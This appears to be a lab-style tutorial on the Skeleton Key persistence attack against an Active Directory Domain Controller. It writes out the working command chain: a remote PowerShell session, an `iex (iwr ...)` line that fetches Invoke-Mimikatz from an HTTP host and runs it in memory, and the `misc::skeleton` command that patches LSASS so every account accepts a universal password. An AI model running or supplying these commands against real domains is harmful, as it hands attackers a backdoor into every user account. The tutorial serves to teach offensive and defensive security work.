





Introduction
In this article, we will cover the third persistence technique for maintaining access to a Domain Controller: the Skeleton Key attack.
What is the Skeleton Key Technique?
The idea behind this technique is that it converts all passwords belonging to every user enrolled in Active Directory to an alternate password -- specifically, the password mimikatz -- while keeping their original passwords fully functional. In other words, after executing the Skeleton Key attack, every user in the domain can be authenticated using either their real password or the universal skeleton key password mimikatz.
Walkthrough
Prerequisites
To execute this technique, you must have a PowerShell session running as a user who is a member of the Domain Admins group.

Step 1: Enter a Remote Session on the Domain Controller
First, we need to connect to the Domain Controller by opening a remote PowerShell session. We do this using the following command:
Enter-PSSession -ComputerName dcorp-dc
This gives us an interactive PowerShell session directly on the Domain Controller.

Step 2: Set Up an HTTP Server for Mimikatz
Next, we need to start an HTTP server on the same path where Mimikatz is located. This allows us to download and load Mimikatz into memory on the Domain Controller. You can use Python's built-in HTTP server or any other method to host the file.

Step 3: Load Mimikatz into Memory
Now we load the Mimikatz PowerShell script into memory on the Domain Controller by downloading and executing it directly using the following command:
iex (iwr http://172.16.100.7/Invoke-Mimikatz.ps1 -UseBasicParsing)
This downloads the Invoke-Mimikatz.ps1 script from our HTTP server and loads it into the current PowerShell session's memory without writing it to disk.

Step 4: Execute the Skeleton Key Attack
With Mimikatz loaded, we now execute the Skeleton Key injection by running:
Invoke-Mimikatz -Command '"misc::skeleton"'
This patches the LSASS process on the Domain Controller so that all user accounts now accept mimikatz as a valid password in addition to their real passwords.
Verifying the Attack
Now that the skeleton key password has been injected for every user, let us verify that it works. We can pick any user in Active Directory -- for example, a user who is a member of the Domain Admins group such as svcadmin -- and attempt to open a PowerShell session using the skeleton key password mimikatz.
After testing, we can confirm that we were able to launch a PowerShell session with the privileges of the svcadmin user using the password mimikatz. This works for any user enrolled in Active Directory, effectively giving us a universal backdoor password across the entire domain.
